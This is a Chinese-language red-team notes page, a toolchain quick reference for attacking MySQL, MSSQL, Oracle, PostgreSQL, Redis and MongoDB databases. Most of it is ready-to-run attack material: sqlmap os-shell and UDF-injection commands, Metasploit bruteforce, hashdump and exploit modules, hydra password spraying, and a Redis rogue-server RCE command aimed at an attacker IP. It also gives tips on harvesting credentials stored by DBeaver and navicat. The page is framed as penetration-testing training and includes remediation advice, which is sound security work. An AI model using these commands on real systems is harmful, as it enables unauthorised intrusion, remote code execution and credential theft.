

# 09-工具链速查

> 数据库红队的工具大表与自动化组合。各工具的利用原理见对应分章：[[02-MySQL渗透|02]]、[[03-MSSQL渗透|03]]、[[04-Oracle渗透|04]]、[[05-PostgreSQL渗透|05]]、[[06-Redis渗透|06]]、[[07-MongoDB渗透|07]]。

## 目录
- [[#一、工具大表|一、工具大表]]
- [[#二、Metasploit数据库模块表|二、Metasploit数据库模块表]]
- [[#三、自动化组合建议|三、自动化组合建议]]
- [[#四、报告输出要点|四、报告输出要点]]

---

## 一、工具大表

| 工具 | 用途 | 平台 | 关键用法 |
|------|------|------|---------|
| sqlmap | SQL 注入自动化 | 跨平台 Python | 见下 1.1 |
| MDAT | MSSQL 利用框架（xp_cmdshell/CLR/差异备份） | Windows .NET / 部分功能跨平台 | 填入 sa 凭据后逐模块点选 |
| odat | Oracle 全能：SID/口令/文件/RCE | Linux/跨平台 Python | `odat.py all -s host -p 1521` |
| redis-rogue-server | Redis 主从复制 RCE | Linux Python | `--rhost --lhost --exp module.so` |
| redis-cli | Redis 原生客户端 | 全平台 | `redis-cli -h host` 直连检测 |
| mongosh | MongoDB 官方 shell | 全平台 | `mongosh --host ip` 未授权检测 |
| NoSQLMap | NoSQL 注入自动化（Mongo 为主） | 跨平台 Python | `nosqlmap` 交互菜单选 2 配置目标 |
| psql / pg_client | PostgreSQL 原生客户端 | 全平台 | `psql -h host -U postgres` |
| hydra | 在线爆破多协议 | Linux/macOS | 模块 mysql/mssql/postgres/mongodb/redis |
| medusa | 并行登录爆破 | Linux | `-M` 模块与 hydra 互补 |
| DBeaver | 多库 GUI 管理（拿凭据后） | 跨平台 Java | 配置连接后可视化拖库导数据 |
| navicat | MySQL/Mongo 等 GUI 管理 | Win/macOS | 同上，报表导出方便 |

### 1.1 sqlmap 的 --dbms 定制技巧

```bash
# 明确 dbms 后 payload 与注释符自动切换，减少误报
sqlmap -u "URL" --dbms=mysql
sqlmap -u "URL" --dbms=mssql          # 自动尝试堆叠查询 → xp_cmdshell
sqlmap -u "URL" --dbms=postgresql
sqlmap -u "URL" --dbms=oracle

# MSSQL 场景直接走 OS 执行链（依赖堆叠查询权限）
sqlmap -u "URL" --dbms=mssql --os-shell
# MySQL 场景指定 UDF 提权路径
sqlmap -u "URL" --dbms=mysql --udf-inject
# 强制使用特定注入技术配合各库特性
sqlmap -u "URL" --dbms=mssql --technique=S   # S=Stacked
```

---

## 二、Metasploit数据库模块表

auxiliary/scanner 系列是爆破阶段的主力：

```bash
msf6 > search auxiliary/scanner/mysql
```

| 模块 | 目标库 | 说明 |
|------|--------|------|
| `auxiliary/scanner/mysql/mysql_login` | MySQL | 口令爆破 |
| `auxiliary/scanner/mysql/mysql_version` | MySQL | 版本指纹 |
| `auxiliary/scanner/mysql/mysql_schemadump` | MySQL | 已有凭据时拖 schema |
| `auxiliary/scanner/mssql/mssql_login` | MSSQL | sa 爆破 |
| `auxiliary/scanner/mssql/mssql_ping` | MSSQL | UDP 1434 发现命名实例 |
| `auxiliary/scanner/mssql/mssql_hashdump` | MSSQL | 登录后提取哈希 |
| `auxiliary/scanner/oracle/oracle_login` | Oracle | 默认账户对爆破 |
| `auxiliary/scanner/oracle/sid_enum` / `tnslsnr_version` | Oracle | SID 枚举/TNS 版本 |
| `auxiliary/scanner/postgres/postgres_login` | PostgreSQL | postgres 爆破 |
| `auxiliary/scanner/postgres/postgres_hashdump` | PostgreSQL | pg_shadow 导出 |
| `auxiliary/scanner/redis/redis_server` | Redis | 未授权信息收集 |
| `auxiliary/scanner/mongodb/mongodb_login` | MongoDB | 无认证/弱口令检测 |

利用类模块：

```bash
# MySQL UDF 提权
use exploit/multi/mysql/mysql_udf_payload
# MSSQL xp_cmdshell 直接执行
use auxiliary/admin/mssql/mssql_exec
# MSSQL CLR payload
use exploit/windows/mssql/ms_sql_clr_payload
```

MSF 数据库后端（workspace 管理）顺带一提：`db_connect` 接入 PostgreSQL 后，扫描结果自动入库，多目标项目时用 `services -p 3306` 快速筛选资产，避免手工维护目标清单。

---

## 三、自动化组合建议

标准流水线（对应 [[01-数据库渗透流程与探测|01章]] 流程图）：



落地命令序列示例（以 MySQL 为例）：

```bash
# Step 1: nmap 定位 + 弱配置检测
nmap -sV -p 3306 --script mysql-info,mysql-empty-password <target>

# Step 2: 爆破
hydra -l root -P pass.txt <target> mysql -t 8

# Step 3: 原生客户端进入并信息收集
mysql -h <target> -u root -p -e "SELECT version(); SELECT @@secure_file_priv;"

# Step 4: 按结果选提权路径（UDF/outfile/general_log），脚本化封装
python3 mysql_udf_exploit.py -H <target> -u root -p '123456'
```

Redis 场景的等价序列（未授权命中时最快出结果）：

```bash
redis-cli -h <target> INFO server | grep redis_version   # 版本定利用链
redis-cli -h <target> CONFIG GET dir                      # 落盘点确认
python3 redis-rogue-server.py --rhost <target> --lhost <攻击IP> \
    --exp module.so --cmd 'id'                            # 主从复制 RCE
```

组合原则：
1. **nmap 先行**——所有后续动作基于端口与版本结论。
2. **hydra 只做验证**——字典精而小，命中即转原生客户端。
3. **原生 cli 优先于 GUI**——命令行可脚本化留痕。
4. **提权脚本按库选择**——MySQL 用 UDF 脚本、MSSQL 用 MDAT、Oracle 用 odat、Redis 用 rogue-server。
5. 全程记录时间线与操作证据，供第四节报告使用。

---

## 四、报告输出要点

红队交付中数据库部分应覆盖：

| 要素 | 内容 |
|------|------|
| 暴露面清单 | IP:端口、版本、公网/内网属性、发现方式（扫描器/测绘） |
| 攻击路径复现 | 从端口到 RCE 的每一步命令与截图，可重复执行 |
| 影响评估 | 可拖取的数据范围、可横移的系统数量、权限级别（服务账户/root/SYSTEM） |
| 凭据处置 | 破解出的口令仅以掩码形式写入报告，明文单独加密交付 |
| 修复建议 | 收敛监听地址、强口令策略、最小权限账户、关闭高危组件（xp_cmdshell/MODULE LOAD）、审计日志开启 |

> 报告中的利用代码附条件说明（所需权限、系统版本），帮助甲方按环境自查同类风险。完整知识索引回到 [[数据库安全总目录|数据库安全 总目录]]。

---

## 五、GUI 管理工具的攻防双面性

DBeaver/navicat 在红队流程中的两个角色：

**正面（拿到凭据后）：**

```text
DBeaver 新建连接 → 填入 host/账号/密码 → 测试连接
→ 展开库表树 → 右键表"查看数据"/"导出"
→ SQL 编辑器执行任意查询（含各章提权语句）
```

| 场景 | 推荐工具 | 理由 |
|------|---------|------|
| 大量数据导出交付 | DBeaver | 免费 + 多格式导出 |
| MySQL 快速翻数据 | navicat | 表结构可视化好 |
| SSH 隧道连内网库 | 两者皆支持 | 跳板机场景必备 |

**反面（作为攻击目标）：**
- 工具本地的连接配置保存明文或弱加密口令（navicat 老版本可离线解密），拿下运维工作站后优先翻 `Documents/DBeaver Data Sources/` 与 navicat 配置目录，直接回收一批数据库凭据。
- DBeaver 的凭据存储在本地 SQLite（`data-sources.json` + credentials），配合用户主目录密码可完整还原连接列表。

---

## 六、环境准备清单

Kali/ArchStrike 下的常用安装：

```bash
# 客户端
sudo apt install mysql-client postgresql-client redis mongosh sqlcmd 2>/dev/null

# 利用框架
git clone https://github.com/quentinhardy/odat.git            # Oracle
git clone https://github.com/n0b0dyCN/redis-rogue-server.git  # Redis RCE
pip install nosqlmap                                          # NoSQL 注入
pip install pymongo                                           # 自写 Mongo 脚本依赖

# 字典与破解
ls /usr/share/wordlists/rockyou.txt   # hashcat/john/hydra 共用
hashcat --example-hashes > /tmp/modes.txt   # 本地模式号对照表

# MDAT（MSSQL 利用，Windows 环境运行）
# 下载: github.com/skelsec/MDAT 或预编译版，填入 sa 凭据后逐模块使用
```

> 工具版本差异大，实战前先在自建靶机验证一遍命令可用性；各利用原理细节回到对应分章复习。

---
**返回** [[数据库安全总目录|数据库安全 总目录]]
